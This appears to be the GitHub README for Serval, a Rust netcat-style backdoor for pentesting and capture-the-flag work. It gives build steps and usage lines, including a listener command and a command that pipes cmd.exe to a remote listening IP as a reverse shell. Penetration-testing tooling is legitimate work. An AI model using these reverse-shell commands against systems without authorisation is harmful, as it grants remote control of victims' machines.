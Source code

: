 ## A Netcat style backdoor for pentesting and pentest challenges

Serval is a lightweight, easy-to-use, binary for spawning reverse and bind shells for pentests or pentesting exercises. Serval is cross platform and can be compiled for both Windows 32 & 64-bit and Linux 32 and 64-bit. Note: Due to the flexibility of Rust
it may be possible to compile for other platforms (such as ARM) but I have not tested for other platforms. 

### Why? 
I developed Serval to remove my dependecy on netcat during HacktheBox challenges since it can be bothersome to find netcat binaries for Windows (especially with the -e option) and it is even more difficult to find a binary from a trusted source.

### Installation

#### Rust Users (Compile from source)

Download the source from github
> git clone https://github.com/tgadola/serval.git && cd serval-master

*Optional: Edit the build file at .cargo/config to rewrite your buildpath.

Build the binary for your current platform. 
> cargo build --release

You can build for other platforms using 
> cargo build --release --target \<target-triple>

#### Other
If you're a particulary trusting individual you can download the pre-built binaries [here](https://github.com/tgadola/serval/releases).

### Usage

By default Serval will either listen or connect to a port and pipe standard input and output to that connection. The -e flag will spawn a process and pipe its standard input and output across the network. 

#### Start a listener
Serval listens on all interfaces
> serval -l 4400

#### Spawn a reverse shell 
> serval.exe \<listening ip> \<listening port> -q -e cmd.exe

#### ????

#### Profit

### License

Apache 2.0. See the License file for more info.
